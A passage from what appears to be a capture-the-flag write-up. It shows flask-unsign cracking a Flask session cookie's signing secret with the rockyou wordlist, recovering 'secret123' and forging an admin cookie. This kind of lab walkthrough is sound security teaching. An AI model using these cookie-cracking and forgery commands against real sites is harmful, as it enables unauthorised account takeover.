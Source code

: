 ```

oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt 
[*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
[*] Starting brute-forcer with 8 threads..
[!] Unhandled exception in cracker thread. Please report this issue on the official bug tracker: "https://github.com/Paradoxis/Flask-Unsign/issues" and don't forget to include the following traceback:

## Stack Trace
FlaskUnsignException: Secret must be a string-type (bytes, str) and received 'int'. To fix this, either add quotes to the secret 123456 or use the --no-literal-eval argument.
  File "/usr/lib/python3.8/multiprocessing/pool.py", line 125, in worker
    result = (True, func(*args, **kwds))
  File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/cracker.py", line 69, in unsign
    if session.verify(self.session, secret, legacy=self.legacy, salt=self.salt):
  File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/session.py", line 29, in verify
    raise FlaskUnsignException(

[!] Failed to find secret key after 0 attempts.

```

It seems to be interpreting “123456” in the file as an int, which is odd. But then the exception message tells how to fix this, by adding `--no-lteral-eval`. I’ll add that, and it works, finding the secret very quickly:

```

oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'

```

#### Failed Access as admin

With access to the secret, I can write whatever I want into the cookie, which means I can log in as any use. So far through the site, there’s been no indication of any other user name, which is a challenge. One reasonable way to go would to hope that there’s an admin account.

I’ll craft a cookie:

```

oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YkP2Cg.saisYxScWGL1RiUL7hoO25l60hg

```
